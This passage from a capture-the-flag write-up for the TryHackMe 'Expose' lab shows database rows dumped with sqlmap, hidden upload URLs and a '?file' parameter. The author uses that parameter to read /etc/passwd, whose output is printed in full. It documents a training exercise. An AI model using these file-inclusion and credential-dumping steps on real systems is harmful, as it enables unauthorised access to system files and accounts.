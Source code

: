 | id | email | created | password |
| --- | --- | --- | --- |
| 1 | hacker@root.thm | 2023-02-21 09:05:46 | <redacted> |

And I found his password.

I also found two more interesting things:

| id | url | password |
| --- | --- | --- |
| 1 | /file1010111/index.php | <redacted>(<redacted>) |
| 3 | /upload-cv00101011/index.php | // ONLY ACCESSIBLE THROUGH USERNAME STARTING WITH Z  |

We can navigate to the first url and put the password found with the sqlmap scan:

![Untitled](https://raw.githubusercontent.com/SimoneFelici/Expose-writeup-THM/main/4ca36771-eb73-4388-a0ae-5541d4fc580b_Export-7a75593e-3439-4e58-bca6-e041ad0479ff/Expose%208862d9d2d64c447b9983bf0fafb7c8f6/Untitled%204.png)

The site just says:

```bash
Parameter Fuzzing is also important :) or Can you hide DOM elements?
```

Apparently the parameter in question is “?file”

So maybe we can use that to read files in the system:

```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
landscape:x:110:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
ec2-instance-connect:x:112:65534::/nonexistent:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:113:119:MySQL Server,,,:/nonexistent:/bin/false
zeamkish:x:1001:1001:Zeam Kish,1,1,:/home/zeamkish:/bin/bash

ftp:x:114:121:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
```
